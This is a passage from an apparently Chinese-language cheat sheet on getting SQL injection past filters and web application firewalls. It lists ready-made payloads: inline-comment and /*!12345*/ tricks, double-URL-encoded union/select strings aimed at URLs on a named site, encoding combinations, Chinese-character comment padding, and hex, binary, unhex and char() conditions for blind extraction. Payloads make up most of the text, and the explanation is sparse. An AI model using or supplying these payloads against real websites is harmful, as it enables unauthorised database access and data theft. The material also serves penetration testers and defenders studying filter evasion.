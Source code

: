 ```
select/*comment*/user/*zzsdsdsf*/from mysql.user;

# 内联注释绕过
/*!12345select*//*!12345user*/ from mysql.user;
```


### 双编码

多次解析：
%2527解析后是%27再解析是'

```
绕过：http://www.90jishuwang.com/news.php?id=1%252f%252aX396X/union%252f%252a /select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users --
```

### 编码组合

```
过滤：http://www.90jishuwang.com/php-nuke/?/X401X*/union/**/select?
绕过：http://www.90jishuwang.com/php-nuke/?/%2A%2A/union/%2A%2A/select?
绕过：http://www.90jishuwang.com/php-nuke/?%2fX405X*%2funion%2f**%2fselect?
```

### 中文字符绕过

```
SQL> union/*%aa*/select
```

利用 union/*中文字符*/select，还要保证这种中文字符不能构造一个汉字。

### 进制换算

```
' or 'a' = n'a # unicode
' %u0061nd 1 = 1 # unicode
' or 'a' = b'1100001 # binary
' or 'a' = x'61 # hexadecimal
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'
```

## 语法绕过

### 关键词绕过

* 过滤and，or可以使用&&和||
